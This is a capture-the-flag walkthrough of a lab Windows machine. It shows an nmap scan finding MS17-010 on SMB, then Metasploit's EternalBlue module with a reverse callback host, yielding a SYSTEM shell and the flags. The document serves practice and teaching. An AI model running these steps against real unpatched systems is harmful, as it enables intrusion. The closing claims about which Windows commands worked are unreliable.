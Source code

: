 I do a fast `nmap` search:

```
nmap -p- --min-rate 1000 {target ip}
```

I see there is an smb service on port 445, and use `nmap` `vuln` scripts to see if there are any vulnerabilities in smb, and I am able to find a big one, called MS-17-010

```
oxdf@parrot$ nmap -p 445 -script vuln -oA scans/nmap-smbvulns 10.10.10.40 Starting Nmap 7.91 ( https://nmap.org ) at 2021-05-03 21:17 EDT Nmap scan report for 10.10.10.40 Host is up (0.019s latency). 
PORT STATE SERVICE 
445/tcp open microsoft-ds 
Host script results: 
|_smb-vuln-ms10-054: false 
|_smb-vuln-ms10-061: NT_STATUS_OBJECT_NAME_NOT_FOUND 
| smb-vuln-ms17-010: 
| VULNERABLE: 
| Remote Code Execution vulnerability in Microsoft SMBv1 servers (ms17-010) 
| State: VULNERABLE 
| IDs: CVE:CVE-2017-0143 
| Risk factor: HIGH 
| A critical remote code execution vulnerability exists in Microsoft SMBv1 
| servers (ms17-010). 
| 
| Disclosure date: 2017-03-14 
| References: 
| https://technet.microsoft.com/en-us/library/security/ms17-010.aspx 
| https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2017-0143 
|_ https://blogs.technet.microsoft.com/msrc/2017/05/12/customer-guidance-for-wannacrypt-attacks/ Nmap done: 1 IP address (1 host up) scanned in 24.85 seconds
```

MS-17-010, known as `ETERNALBLUE` is an unauthenticated remote code execution vulnerability in Windows SMB most famous for it's leak by Shadow Brokers and the WannaCry worm in 2017.

There are several exploits available on the web, but I will be using Metasploit.

```
$ msfconsole

msf6 > search ms17-010 
Matching Modules ================ 
# Name Disclosure Date Rank Check Description - ---- --------------- ---- ----- ----------- 
0 exploit/windows/smb/ms17_010_eternalblue 2017-03-14 average Yes MS17-010 EternalBlue SMB Remote Windows Kernel Pool Corruption 

1 exploit/windows/smb/ms17_010_eternalblue_win8 2017-03-14 average No MS17-010 EternalBlue SMB Remote Windows Kernel Pool Corruption for Win8+ 

2 exploit/windows/smb/ms17_010_psexec 2017-03-14 normal Yes MS17-010 EternalRomance/EternalSynergy/EternalChampion SMB Remote Windows Code Execution 

3 auxiliary/admin/smb/ms17_010_command 2017-03-14 normal No MS17-010 EternalRomance/EternalSynergy/EternalChampion SMB Remote Windows Command Execution 

4 auxiliary/scanner/smb/smb_ms17_010 normal No MS17-010 SMB RCE Detection 

5 exploit/windows/smb/smb_doublepulsar_rce 2017-04-14 great Yes SMB DOUBLEPULSAR Remote Code Execution

msf6 > use 0

msf6 exploit(windows/smb/ms17_010_eternalblue) > set RHOSTS 10.10.10.40 
RHOSTS => 10.10.10.40 
msf6 exploit(windows/smb/ms17_010_eternalblue) > set lhost 10.10.14.14 
lhost => 10.10.14.14

msf6 exploit(windows/smb/ms17_010_eternalblue) > exploit
```

So that works! This exploit works just by setting RHOSTS and LHOST.

```
meterpreter > getuid 
Server username: NT AUTHORITY\SYSTEM

meterpreter > shell

C:\Windows\system32>
```

I found a flag for the user in `/haris/destop/user.txt` and found a flag for the administrator in `/administrator/desktop/root.txt`. I was able to enumerate the system using the command `cd` and was able to print the flags using `cat`. I had some issues using the following commands `pwd, type, whoami, echo, powershell, and net user`. 

